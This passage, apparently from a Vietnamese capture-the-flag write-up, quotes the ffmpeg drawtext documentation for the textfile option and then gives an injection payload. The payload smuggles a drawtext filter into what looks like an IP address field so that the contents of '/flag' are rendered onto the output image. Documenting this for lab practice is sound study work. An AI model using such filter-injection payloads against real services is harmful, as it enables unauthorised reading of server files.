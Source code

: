 ![image](./pcs/Test2.PNG)

Tốt rồi

### Test 3

Đọc phần docs của `drawtext` thì biết được cách để đọc 1 file rồi in ra màn hình là `textfile`

```
textfile
A text file containing text to be drawn. The text must be a sequence of UTF-8 encoded characters.

This parameter is mandatory if no text string is specified with the parameter text.

If both text and textfile are specified, an error is thrown.
```

Thử payload mới

```
1.1.1.1::,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```
